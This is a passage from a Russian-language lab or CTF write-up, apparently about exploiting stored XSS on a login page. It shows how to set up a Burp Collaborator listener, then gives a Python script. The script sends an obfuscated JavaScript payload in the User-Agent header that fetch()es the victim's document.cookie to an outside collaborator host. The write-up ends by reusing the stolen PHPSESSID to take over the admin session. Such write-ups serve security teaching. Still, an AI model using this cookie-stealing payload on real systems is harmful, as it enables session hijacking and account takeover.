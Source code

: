 ````python 
 
print(response.status_code)
print(response.text)
````

Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

Для понимания как это работает.
![[Pasted image 20240313003642.png]]
1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.
5) Если окошко как на фото снизу не появляется, то нажмите на "+. Это создаст новую сессию и обновит окошко.
![[Pasted image 20240313003239.png]]
Мы только что поймали наш request и можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер, очень удобно.
Копируем и вставляем в скрипт.


````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````

Отправляем, ждем, пуллим.

##Проверка

Вуаля! Подставим значение PHPSESSID в наш браузер. 
На сегодня все!
